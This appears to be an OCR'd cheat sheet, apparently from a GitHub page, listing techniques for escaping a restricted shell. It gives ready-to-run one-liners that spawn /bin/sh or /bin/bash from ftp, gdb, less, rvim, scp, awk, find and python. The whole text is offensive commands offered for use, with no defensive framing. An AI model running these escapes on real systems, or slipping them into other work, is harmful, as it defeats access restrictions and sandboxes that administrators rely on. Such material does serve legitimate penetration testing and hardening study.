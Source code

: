 **Common Exploitation Techniques:**

If ``/`` is allowed, you can run ``/bin/sh`` or ``/bin/bash``

If ``cp`` is allowed, you can copy ``/bin/sh`` or ``/bin/bash`` to your own directory.

From ``ftp``, ``gdb``, ``more``, ``man``, or ``less``:

```
xxx > !/bin/sh

or

xxx > !/bin/bash
```

From ``rvim``:

```
:python import os; os.system("/bin/bash")
```

From ``scp``:

```
# scp -S /path/yourscript x y:
```

From ``awk``:

```
# awk 'BEGIN {system("/bin/sh")}'

or

# awk 'BEGIN {system("/bin/bash")}'
```

From ``find``:

```
# find / -name test -exec /bin/sh \;

or

# find / -name test -exec /bin/bash \;
```
##

**Programming Languages Techniques:**

From ``except``:

```
# except spawn sh
```

From ``python``:

```
# python -c 'import os;os.system("/bin/sh")'

or

# python3 -c 'import os;os.system("/bin/sh")'
```
